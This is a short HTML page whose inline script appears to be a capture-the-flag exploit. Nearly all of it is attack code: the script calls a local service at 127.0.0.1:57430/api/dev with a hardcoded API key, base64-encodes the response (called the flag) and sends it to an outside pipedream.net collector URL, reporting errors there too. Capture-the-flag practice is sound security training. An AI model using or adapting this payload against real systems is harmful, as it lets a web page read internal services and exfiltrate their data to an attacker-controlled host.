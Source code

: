 <html>
<body>
  <h1>some stuff</h1>
</body>
<script>
// try to fetch /api/dev with the required header
fetch("http://127.0.0.1:57430/api/dev", {
  method: "GET",
  headers: {
    "x-api-key": "934caf984a4ca94817ea6d87d37af4b3"
  }
})
.then(r => r.text())
.then(data => {
  // exfiltrate result (flag) back to you
  fetch("https://eorkhjqchyrh0tc.m.pipedream.net/YOUR_ID?flag=" + btoa(data));
})
.catch(err => fetch("https://eorkhjqchyrh0tc.m.pipedream.net/YOUR_ID?err=" + encodeURIComponent(err)));
</script>
</html>
